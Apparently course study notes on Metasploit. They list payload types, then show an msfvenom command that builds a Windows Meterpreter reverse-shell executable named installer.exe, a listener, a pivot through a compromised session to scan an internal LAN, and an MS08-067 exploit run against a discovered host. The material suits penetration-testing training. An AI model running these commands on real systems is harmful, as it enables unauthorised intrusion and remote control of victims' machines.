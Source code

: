 ## Metasploit

- Exploit: taking advantage of known flaw
- Payload: The code attackers want to run
  - Bind shell to arbitrary port
  - Reverse shell
  - Windows VNC server (as a DLL, injected into a vuln process)
  - Create local admin user
  - Meterpreter (run inside a vuln process, completetly on memory, transported with TLS): for Windows
  - Msfvenom: Standalone payload
- Auxiliary: Scanning
- Post modules: priv esc, gather creds, ...


```
On attacker
sec504@slingshot:~$ msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 --platform windows LHOST=172.16.0.6 LPORT=4444 -o installer.exe
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: installer.exe
sec504@slingshot:~$ file installer.exe
installer.exe: PE32 executable (GUI) Intel 80386, for MS Windows
sec504@slingshot:~$
sec504@slingshot:~$
sec504@slingshot:~$ msfconsole -qx "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LPORT 4444; set LHOST 0.0.0.0; exploit"
[*] Starting persistent handler(s)...
```

the other example is

```
# Step 1: Background the current session
msf6 > background
[*] Backgrounding session 1...

# Step 2: Add route through the session to reach internal LAN
msf6 > route add 192.168.56.0 255.255.255.0 1
[*] Route added

# Step 3: Use post/multi/manage/autoroute (optional check)
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > run
[*] Route added to subnet 192.168.56.0/24 via session 1

# Step 4: Scan the internal LAN via the session
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.56.0/24
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 22,80,135,139,445
msf6 auxiliary(scanner/portscan/tcp) > set THREADS 10
msf6 auxiliary(scanner/portscan/tcp) > run
[*] Scanning 192.168.56.0/24...
[+] 192.168.56.105:445 - TCP OPEN
[+] 192.168.56.102:80 - TCP OPEN

# Step 5: Attack a discovered host (e.g. with MS08-067 exploit)
msf6 > use exploit/windows/smb/ms08_067_netapi
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.56.105
msf6 exploit(windows/smb/ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.56.1
msf6 exploit(windows/smb/ms08_067_netapi) > set LPORT 4445
msf6 exploit(windows/smb/ms08_067_netapi) > exploit
```